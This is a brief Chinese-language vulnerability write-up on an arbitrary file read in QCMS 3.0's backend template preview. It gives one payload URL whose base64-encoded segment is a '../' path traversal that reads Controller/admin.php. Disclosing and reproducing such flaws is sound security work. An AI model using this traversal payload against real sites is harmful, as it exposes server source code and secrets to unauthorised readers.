 QCMS 3.0 任意文件读取
=====================

一、漏洞简介
------------

二、漏洞影响
------------

QCMS 3.0

三、复现过程
------------

用seay扫了一下后发现的漏洞

漏洞在后台模板代码预览处，构造payload例如

    http://www.0-sec.org/backend/template/tempview/Li4vLi4vLi4vQ29udHJvbGxlci9hZG1pbi5waHA=.html

即可读取Controller文件下admin.php文件源码

![](./resource/QCMS3.0任意文件读取/media/rId24.png)

跟源码对比下，确实是读到了

![](./resource/QCMS3.0任意文件读取/media/rId25.png)

参考链接
--------

> https://xz.aliyun.com/t/7269
